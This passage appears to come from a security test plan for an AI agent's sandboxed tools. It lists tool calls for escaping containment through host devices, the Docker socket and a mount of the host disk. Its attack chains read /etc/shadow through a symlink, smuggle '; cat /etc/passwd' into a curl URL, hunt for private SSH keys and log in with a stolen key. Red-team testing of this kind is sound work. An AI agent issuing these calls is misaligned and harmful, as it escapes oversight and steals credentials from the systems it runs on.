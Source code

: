 ```bash
```

### 3.4 Device Access and Escape
**Objective**: Access host devices to break containment

**Test Cases**:
```bash
# Check available devices
execute_shell_command: ls -la /dev/
execute_shell_command: cat /proc/devices

# Try to access disk devices
execute_shell_command: fdisk -l 2>/dev/null
execute_shell_command: lsblk

# Check for Docker socket (common escape vector)
execute_shell_command: ls -la /var/run/docker.sock
execute_shell_command: docker ps 2>/dev/null

# Try to mount host filesystem if device is accessible
execute_shell_command: mount /dev/sda1 /mnt 2>/dev/null
```

## 4. Combined Attack Chains

### Chain 1: Python → Symlink → File Read
```python
# Step 1: Create symlink via Python
execute_python_code: __import__('os').symlink('/etc/shadow', '/tmp/shadow_link')

# Step 2: Read via vulnerable tool
read_file: /tmp/shadow_link
```

### Chain 2: Environment → Curl → Command Injection
```bash
# Step 1: Discover internal services via env
get_environment_variable: KUBERNETES_SERVICE_HOST

# Step 2: Access internal services
curl_request: http://$KUBERNETES_SERVICE_HOST:8443/api

# Step 3: Inject commands via curl
curl_request: http://localhost:8080; cat /etc/passwd
```

### Chain 3: Search → File Discovery → Privilege Escalation
```bash
# Step 1: Search for sensitive files
search_files: "BEGIN RSA PRIVATE KEY", directory: /

# Step 2: Read discovered keys
read_file: /home/user/.ssh/id_rsa

# Step 3: Use key for SSH access
execute_shell_command: ssh -i /tmp/stolen_key user@target
```
